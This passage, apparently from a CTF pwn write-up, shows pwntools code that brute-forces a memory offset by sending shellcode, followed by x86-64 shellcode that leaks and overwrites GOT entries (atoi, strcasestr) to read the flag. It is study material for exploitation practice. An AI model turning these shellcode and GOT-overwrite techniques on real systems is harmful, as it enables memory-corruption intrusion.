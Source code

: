 ```python  
	this:  
	jmp this;  
	''' % (hex(img_addr + 0x41))  
	payload = asm(shellcode)  
	rce(sh, payload)  
	try:  
		ret = sh.recvuntil("\n")  
		if len(ret) > 1:  
			print_hex(ret)  
			sh.interactive()  
		if ret[:3] == "\x48\x89\xC3":  
			ret = True  
		else:  
			ret = False  
		sh.close()  
	except Exception as e:  
		ret = False  
		sh.close()  
		return ret

for i in xrange(-0x30, 0x30):  
	print "testing " + hex(i)  
	if leak_prog(i * 0x1000):  
		print hex(i * 0x1000)  
		input()  
```

Even if the offset is different, they don't seem to differ a lot according to
my testing on different machines. So, I will test over range from `-0x30 to
0x30` first. We only need to test the page size (0x1000) multiples because
`vm_mem` is always page aligned.

Finally, I found the `i` to be `-0x13`.

Then it is time to write final shellcode!

```assembly  
mov rdi,atoi_got  
xor rax,rax  
mov al,0x76  
call rax ; leak address of atoi  
xor rax,rax  
mov al,0x69  
mov rdi,strcasestr_got  
push 0x41  
pop rsi  
call rax ; rewrite strcasestr to atoi  
mov rdi,strcasestr_got  
xor rax,rax  
mov al,0x76  
call rax ; check it is indeed rewritten (actually not needed)  
mov rax,0xffffffff989e9399  
xor rax,0xffffffffffffffff  
push rax  
mov rdi,rsp  
xor rax,rax  
mov al,0x87  
call rax ; cat flag  
this:  
jmp this ; used to debug: make sure everything is executed  
```

